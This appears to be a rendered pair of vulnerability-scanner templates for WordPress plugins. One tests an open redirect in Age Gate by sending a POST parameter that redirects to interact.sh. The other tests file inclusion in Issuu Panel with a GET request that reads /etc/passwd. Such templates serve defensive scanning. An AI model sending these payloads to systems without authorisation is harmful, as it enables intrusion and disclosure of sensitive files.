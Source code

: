 - WordPress Age Gate plugin before 2.13.5 contains an open redirect vulnerability via the \_wp_http_referer parameter after certain actions and after invalid or missing nonces. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - low
- tags - agegate,unauth,wpscan,packetstorm,wp-plugin,redirect,wordpress,wp

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-admin/admin-post.php
  - age_gate%5Bd%5D=10&age_gate%5Bm%5D=10&age_gate%5By%5D=1990&age_gate%5Bremember%5D=1&age_gate%5Bage%5D=TVRnPQ%3D%3D&action=age_gate_submit&age_gate%5Bnonce%5D=48f2b89fed&\_wp_http_referer=https://interact.sh

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$

---

# Wordpress Plugin Issuu Panel Remote/Local File Inclusion

## Description

- The WordPress Issuu Plugin includes an arbitrary file disclosure vulnerability that allows unauthenticated attackers to disclose the content of local and remote files.
- severity - high
- tags - wp-plugin,wordpress,lfi,rfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/issuu-panel/menu/documento/requests/ajax-docs.php?abspath=%2Fetc%2Fpasswd

### Matchers

**Type - regex**
